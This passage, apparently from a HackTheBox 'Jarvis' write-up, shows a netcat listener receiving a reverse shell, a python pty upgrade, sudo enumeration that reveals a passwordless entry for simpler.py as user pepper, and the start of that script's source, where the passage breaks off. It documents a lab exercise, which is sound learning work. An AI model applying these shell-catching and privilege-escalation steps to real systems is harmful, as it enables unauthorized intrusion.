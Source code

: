 It’s also a good idea to upgrade the shell to a tty:

{% highlight bash %}
root@fury-battlestation:~/htb/blog/jarvis# nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.15.147] from (UNKNOWN) [10.10.10.143] 50616
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@jarvis:/var/www/html$ 

{% endhighlight %}

## Exploiting simpler.py

Once I had a shell, I starter enumerating the machine. One thing that seemed odd was the `sudo` permission:

{% highlight bash %}
www-data@jarvis:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
www-data@jarvis:/var/www/html$

{% endhighlight %}

The `www-data` user is allowed to run `/var/www/Admin-Utilities/simpler.py` as `pepper` without providing any password. I thought this might be the path to privesc, and I was right! I first tried to read the source code of the script:

{% highlight bash %}
www-data@jarvis:/var/www/html$ cat /var/www/Admin-Utilities/simpler.py
cat /var/www/Admin-Utilities/simpler.py
#!/usr/bin/env python3
from datetime import datetime
import sys
import os
from os import listdir
import re

def show_help():
    message=;;;
********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    ;;;
    print(message)

def show_header():
    print(;;;***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |